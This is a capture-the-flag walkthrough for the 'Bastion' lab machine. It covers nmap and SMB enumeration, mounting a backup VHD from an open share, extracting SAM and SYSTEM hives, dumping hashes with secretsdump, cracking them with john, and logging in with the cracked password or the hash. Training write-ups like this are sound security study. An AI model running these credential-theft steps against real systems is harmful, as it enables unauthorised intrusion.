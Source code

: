 # Bastion

![image](https://user-images.githubusercontent.com/5285547/124922763-bdd69080-dff1-11eb-8d6f-a61503cb4e42.png)

## Nmap 

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-08T14:41:29+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-08T12:41:28
|_  start_date: 2021-07-08T05:30:31
```

## Smb

```
smbclient -L \\10.10.10.134                   
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```


/backups
```
smbclient \\\\10.10.10.134\\backups

smb: \> ls
  .                                   D        0  Thu Jul  8 08:39:38 2021
  ..                                  D        0  Thu Jul  8 08:39:38 2021
  note.txt                           AR      116  Tue Apr 16 11:10:09 2019
  OBFUEDPSHM                          D        0  Thu Jul  8 08:39:38 2021
  SDT65CB.tmp                         A        0  Fri Feb 22 12:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 12:44:02 2019
```

```
cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

![image](https://user-images.githubusercontent.com/5285547/124925815-c086b500-dff4-11eb-85a6-d8fed8fef8ff.png)

We see some vhd files, but with the note.txt in mind, we should not try to copy them across as they are vrey large files.  
Instead we can mount them using the info here: https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/

```
sudo apt install libguestfs-tools -y
sudo mkdir /mnt/vhd 
ls -ld /mnt/vhd
sudo mount -t cifs //10.10.10.134/backups /mnt/vhd -o user,password=
cd "/mnt/vhd/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351"
```

This command takes a while so wait a bit. 
```
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/any
cd /mnt/any
```

![image](https://user-images.githubusercontent.com/5285547/124927480-98985100-dff6-11eb-87df-9c50b57ff66f.png)


## Cracking SAM database files

Find the SAM database location:
```
cd /mnt/any/Windows/System32/config
cp SAM SYSTEM /tmp 
cd /tmp
```
```
impacket-secretsdump -sam SAM -system SYSTEM local > file
```
![image](https://user-images.githubusercontent.com/5285547/124928250-60454280-dff7-11eb-8a71-52581bbf9f9d.png)

```
john file.sam --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```

# User

Access 
```
ssh l4mpje@10.10.10.134
bureaulampje
```
or
```
smbmap -u l4mpje -p aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```








